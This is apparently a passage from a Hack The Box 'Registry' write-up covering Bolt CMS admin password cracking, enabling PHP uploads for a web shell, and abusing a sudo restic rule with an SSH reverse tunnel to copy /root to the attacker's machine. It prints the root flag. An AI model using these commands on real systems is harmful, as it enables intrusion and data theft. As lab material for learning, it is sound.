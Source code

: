 ## More password cracking

Admin pass cracking with john leads to *strawberry*

bolt admin can then get RCE.

*CVE-2019-9185* does not work, but change main config and upload a php. 

main configuration
```
# Define the file types (extensions to be exact) that are acceptable for upload
# in either 'file' fields or through the 'files' screen.
accept_file_types: [ php, twig, html, js, css, scss, gif, jpg, jpeg, png, ico, zip, tgz, txt, md, doc, docx, pdf, epub, xls, xlsx, ppt, pptx, mp3, ogg, wav, m4a, mp4, m4v, ogv, wmv, avi, webm, svg]
```

```
p0wny@shell:…/www/html# cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

```
p0wny@shell:…/www/html# sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

## Firewall bypassing 
There is a firewall that prevents reverse shells, which is annoying. But.

1. Run a local REST server for Restic on the attacker's machine.
2. ssh to the remote server and port forward back some port, like 6510

```
ssh -R 6510:localhost:8000 -i bolt-image.root_rsa bolt@10.10.10.159
```

3. write a password to a file

```
p0wny@shell:/tmp# echo 'a' > pieru
```

4. then 
Then use the RCE to backup the root home directory and the files will appear at the attacker's file system!
```
p0wny@shell:/tmp# sudo /usr/bin/restic backup -r rest:http://localhost:6510 -p pieru /root
```

Now.
```
root@rot-t420:~/htb-notes/registry/restore# ../restic_0.8.3_linux_386 restore -r /tmp/restic 59c0a355 --target .
enter password for repository: 
password is correct
restoring <Snapshot 59c0a355 of [/root] at 2020-02-24 15:36:47.720732907 +0000 UTC by root@bolt> to .
```

The root flag:
ntrkzgnkotaxyju0ntrinda4yzbkztgw

